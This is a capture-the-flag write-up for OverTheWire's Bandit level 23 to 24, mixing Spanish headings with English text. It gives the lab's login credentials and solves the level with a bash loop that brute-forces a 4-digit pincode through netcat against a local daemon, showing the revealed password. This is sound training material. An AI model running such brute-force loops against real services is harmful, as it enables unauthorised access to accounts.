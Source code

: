 # Level 23 -> 24

## Objetivo

-   A daemon is listening on port 30002 and will give you the password for bandit25 if  
    given the password for bandit24 and a secret numeric 4-digit pincode. There is no  
    way to retrieve the pincode except by going through all of the 10000 combinations,  
    called brute-forcing.

## Datos de acceso

-   Host: bandit.labs.overthewire.org
-   Port: 2220
-   User: bandit24
-   Password: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

## Solución

-   Send port 30002 the current password, however this will not give you the next password. Brute force is required, loop the current password until you get the new one.

```
bandit24@bandit:~$ nc localhost 30002 <<< VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Fail! You did not supply enough data. Try again.
^C
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
bandit24@bandit:~$
```

Notas adicionales:
